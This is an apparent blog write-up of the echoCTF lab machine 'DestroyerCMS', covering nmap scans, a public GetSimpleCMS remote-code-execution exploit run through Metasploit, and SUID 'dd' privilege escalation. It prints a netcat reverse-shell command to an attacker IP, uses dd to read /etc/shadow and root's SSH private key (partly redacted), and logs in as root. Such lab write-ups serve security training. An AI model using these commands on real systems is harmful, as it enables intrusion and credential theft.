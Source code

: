 ```yaml
---
description: >-
  DestroyerCMS echoCTF Machine
title: DestroyerCMS (Intermediate)                # Add title here
date: 2023-01-31 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Intermediate]                     # Change Templates to Writeup
tags: []     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Destroyercms.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.222    destroyercms.echocity-f.com
```

### Content

-   GetSimpleCMS RCE exploit
-   SUID privilege escalation

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
# Nmap 7.94SVN scan initiated Thu Jan 23 23:31:07 2025 as: nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.222
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.222 ()   Status: Up
Host: 10.0.160.222 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
# Nmap done at Thu Jan 23 23:34:40 2025 -- 1 IP address (1 host up) scanned in 212.81 seconds
```

Services and Versions running:
```bash
# Nmap 7.94SVN scan initiated Thu Jan 23 23:36:49 2025 as: nmap -p22,80 -sCV -n -Pn -vvvv -oN targeted 10.0.160.222
Nmap scan report for 10.0.160.222
Host is up, received user-set (0.17s latency).
Scanned at 2025-01-23 23:36:50 EST for 42s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   256 59:f2:44:81:7e:39:44:a2:74:78:01:f4:41:9d:3c:32 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHrsjVfK8kJ4w0XD3dHLYJmvvzVETjkYlbeoYVFk8aHpq9fngAgZvUDDnDekezCzkEP0yYOq4NIP1/mGsLFQ/G4=
|   256 41:6c:06:38:b6:c4:81:32:3a:da:93:34:8e:5e:52:9b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBcNlnBiNe1SHe160w0K6u9YfowdzTrYEeVIYZHKyZ+7
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.61 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome to GetSimple! - simple
| http-robots.txt: 1 disallowed entry 
|_/admin/
|_http-server-header: Apache/2.4.61 (Debian)
```

### Exploitation

Checking service HTTP on port 80 I discovered that there is a page that is not shown correctly, so I hover my mouse on top of the "Home" hyperlink to check if there is a host that is not being recognized: 
![](/assets/img/Pasted-image-20250123223859.png)

So, let's add it to the hosts file:
```bash
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters


10.0.160.222    destroyercms.echocity-f.com
```

Finally, I can see the full page with all the visual content:
![](/assets/img/Pasted-image-20250123224310.png)

Searching for this GetSimple CMS I found a public [RCE exploit](https://www.exploit-db.com/exploits/51475) that is easily exploited via metasploit:

![](/assets/img/Pasted-image-20250123224647.png)

After setting all the details, a meterpreter session is opened:

![](/assets/img/Pasted-image-20250123224824.png)

Note.- It is possibl to start a normal shell with command `shell` in meterpreter and using `nc`

```bash
meterpreter > shell
Process 183 created.
Channel 0 created.

nc -c bash 10.10.5.122 2345
```

### Privilege Escalation

By running looking for SUID binaries we identify that there is a SUID binary `dd` that has special privilege flag:
```bash
www-data@destroyercms:/tmp$ find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/sudo
/bin/su
/bin/umount
/bin/dd
/bin/mount
```

This binary has an special entry in [GTFObin](https://gtfobins.github.io/gtfobins/dd/) which allows an user to read and write files:

![](/assets/img/Pasted-image-20250123231808.png)

I then proceed to read the `/etc/shadow` file to verify if this is correct, and surprise I can read the file:
```bash
www-data@destroyercms:/tmp$ /bin/dd if=/etc/shadow
root:*:19458:0:99999:7:::
daemon:*:19458:0:99999:7:::
bin:*:19458:0:99999:7:::
sys:*:19458:0:99999:7:::
sync:*:19458:0:99999:7:::
games:*:19458:0:99999:7:::
man:*:19458:0:99999:7:::
lp:*:19458:0:99999:7:::
mail:*:19458:0:99999:7:::
news:*:19458:0:99999:7:::
uucp:*:19458:0:99999:7:::
proxy:*:19458:0:99999:7:::
www-data:*:19458:0:99999:7:::
backup:*:19458:0:99999:7:::
list:*:19458:0:99999:7:::
irc:*:19458:0:99999:7:::
gnats:*:19458:0:99999:7:::
nobody:*:19458:0:99999:7:::
_apt:*:19458:0:99999:7:::
mysql:!:19965:0:99999:7:::
sshd:*:19965:0:99999:7:::
ETSCTF:ETSCTF_<REDACTED>:19965:0:99999:7:::
```

This means that we can read files within /root directory, such as `/root/.ssh/id_rsa`:
```bash
www-data@destroyercms:/tmp$ /bin/dd if=/root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
<REDACTED>
```

Then we can save this id_rsa private key to access via ssh (don't forget chmod 600):
```bash
└─$ ssh -i id_rsa root@10.0.160.222  
The authenticity of host '10.0.160.222 (10.0.160.222)' can't be established.
ED25519 key fingerprint is SHA256:qPvHgmIzb2YH68N6uMkwoHTkCXjfKLqBYeuEnUc5FZo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
root@destroyercms:~#
```

### Post Exploitation
Finally, read the flag on /root directory:
```bash
root@destroyercms:~# ls
ETSCTF_<REDACTED>
```

### Credentials
Find id_rsa using dd binary with SUID


### Notes

-   Always look for public exploits on CMS specially those that are verified and have metasploit PoC
-   Look for SUID binaries, privilege escalation simple commands are key (if not, use linpeas.sh)

### References



